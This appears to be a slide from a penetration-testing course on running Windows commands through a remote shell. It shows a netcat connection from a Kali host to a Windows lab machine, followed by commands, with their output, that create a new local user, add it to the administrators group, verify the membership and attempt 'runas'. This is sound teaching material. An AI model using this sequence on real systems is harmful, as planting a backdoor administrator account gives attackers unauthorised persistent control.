

Windows remote commands
Answer

C:\>net user alice P@$$word /add
net user alice P@$$word /add
The command completed successfully.

C:\>net localgroup administrators alice /add
net localgroup administrators alice /add
The command completed successfully.

C:\>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
alice
IEUser
sshd_server
The command completed successfully.

C:\>net localgroup administrators | find "alice"
net localgroup administrators | find "alice"
alice

C:\>runas /u:alice cmd.exe
runas /u:alice cmd.exe
Enter the password for alice:

C:\>
root@kali:~# nc 10.10.0.5 8080
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
msedgewin10\ieuser

C:\>net user
net user

User accounts for \\MSEDGEWIN10

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
IEUser                   sshd                     sshd_server
The command completed successfully.

C:\>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
IEUser
sshd_server
The command completed successfully.

We can use "find" like "grep"
Everything worked until we needed to enter a password!